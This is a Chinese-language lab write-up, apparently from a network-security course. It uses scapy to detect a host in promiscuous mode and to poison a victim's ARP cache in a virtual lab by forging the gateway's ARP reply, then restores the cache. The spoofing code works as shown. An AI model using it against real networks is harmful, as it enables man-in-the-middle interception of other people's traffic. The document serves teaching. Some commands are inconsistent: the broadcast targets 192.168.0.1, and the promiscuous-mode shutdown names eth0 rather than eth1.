


# 网络监听

## 网络拓扑


如图所示网络中的节点基本信息如下：

* 攻击者主机
    * `08:00:27:f1:cd:c3` / `eth1`
    * `172.16.111.101`
* 受害者主机
    * `08:00:27:c8:63:67` / `eth1`
    * `172.16.111.107`
* 网关
    * `08:00:27:80:25:2e` / `enp0s9` 
    * `172.16.111.1`

## 实验准备

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```


## 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth1
```
(实验分两次做的，图片清晰度有些不一样)


```bash
# 在攻击者主机上开启 scapy，不提升权限有些操作无法进行
sudo scapy
```

```bash
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.107")
```

```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth1 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth1
```


```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.107")
```

```bash
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

查阅资料，promiscping 命令会发送 ARP who-has 请求。

> - 混杂模式 接收所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
> - 普通模式 网卡只接收发给本机的包

可以看出在混杂模式下，受害者主机才能收到这个数据包。

在受害者主机上开启Wireshark抓包，也验证了这个问题。发送的包并没有指定目的主机的MAC地址，所以普通模式下发送不会成功



## 实验二：手工单步“毒化”目标主机的 ARP 缓存

### 获取当前局域网的网关 MAC 地址
```python
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="192.168.0.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

```bash
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

### 伪造网关的 ARP 响应包
```bash
# 准备发送给受害者主机
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.107", hwdst="08:00:27:f1:cd:c3")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```


此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
```

### 恢复受害者主机的 ARP 缓存记录
```python
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:80:25:2e", pdst="172.16.111.107", hwdst="08:00:27:c8:63:67")
sendp(restorepkt1, count=100, inter=0.2)
```


此时在受害者主机上准备“刷新”网关 ARP 记录。

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

 
## 参考
- [黄大的课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [使用scapy模块编写ARP欺骗脚本 - OSChina](https://my.oschina.net/u/4580309/blog/4358219)